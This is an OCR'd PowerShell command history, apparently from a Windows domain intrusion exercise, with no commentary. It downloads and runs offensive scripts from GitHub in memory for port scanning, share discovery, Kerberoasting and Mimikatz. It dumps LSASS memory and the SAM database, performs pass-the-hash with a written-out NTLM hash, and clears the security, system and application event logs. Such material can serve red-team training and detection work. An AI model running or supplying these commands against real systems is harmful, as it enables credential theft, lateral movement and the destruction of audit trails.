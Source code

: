 ```
IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1'); invoke-portscan -hosts 172.16.50.0/24 -ports "445" -AllformatsOut smbScan
ls
cat .\smbScan.gnmap
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat
Start-Process -FilePath "powershell.exe" -Verb RunAsUser
mv C:\Users\pat.risus\Desktop\computers.txt C:\Users\brent.socium\
tasklist /M;rdpcorets.dll
tasklist /M:rdpcorets.dll
C:\windows\system32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 828 C:\dump full
ls C:\
cd C:\Users\brent.socium\
ls
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug token::elevate lsadump::sam"
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls, [Net.SecurityProtocolType]::Tls11, [Net.SecurityProtocolType]::Tls12, [Net.SecurityProtocolType]::Ssl3
[Net.ServicePointManager]::SecurityProtocol = "Tls, Tls11, Tls12, Ssl3"
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug token::elevate lsadump::sam"
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
ls
pwd
mv .\computers.txt .\Desktop\
cd .\Desktop\
ls
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
clear-eventlog -log application,system,security
get-eventlog --list
get-eventlog -list
telnet
```

---
